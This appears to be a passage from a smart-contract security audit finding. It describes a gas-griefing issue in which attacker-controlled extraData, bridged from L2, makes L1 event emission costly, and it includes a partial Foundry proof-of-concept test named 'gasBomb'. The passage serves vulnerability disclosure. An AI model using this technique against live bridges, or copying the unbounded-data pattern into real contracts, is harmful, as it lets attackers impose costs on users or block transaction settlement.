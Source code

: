 note the event emission:

```solidity
emit ERC20BridgeFinalized(_localToken, _remoteToken, _from, _to, _amount, _extraData);
}
```

whatever is submitted as extraData in L2 is also emited on L1, consider that transaction gas fee is cheap in L2 when emitting large data, fi the extraData byte string is long, event emission can be very costly, and the adversary can force the caller to pay large gas fee when settle the transaction in L1 that is bridged from L2.

As shown in the Coded POC, if the emitted extraData is large and long, the transaction can quickly run out of gas.

https://drive.google.com/file/d/1ls3B1zA0YJQQ-p0JwBpjZv0xQJLsP_W9/view?usp=sharing

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.12;
import "forge-std/Test.sol";
import "forge-std/console.sol";

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "../src/Mock/NormalERC20.sol";

contract Bridge {

    event Deposit(bytes data);

    function gasBomb(bytes memory data) public {
        emit Deposit(data);
    }

}

contract POCTest is Test {
    
    // hacker address
    address hacker = vm.addr(1);
    NormalERC20 token;
    Bridge bridge;

    function setUp() public {
        token = new NormalERC20();
        bridge = new Bridge();
    }

    function testReaonsableGasOne() public {
        bytes memory data = "hihiihihihi";
        for(uint256 i; i < 10; ++i) {
            data = abi.encode(data, address(0));
        }
        bridge.gasBomb(data);
    }

    function testReaonsableGasTwo() public {
        bytes memory data = "hihiihihihi";
        for(uint256 i; i < 100; ++i) {
            data = abi.encode(data, address(0));
        }
        bridge.gasBomb(data);
    }

    function testUnboundedGas() public {
```
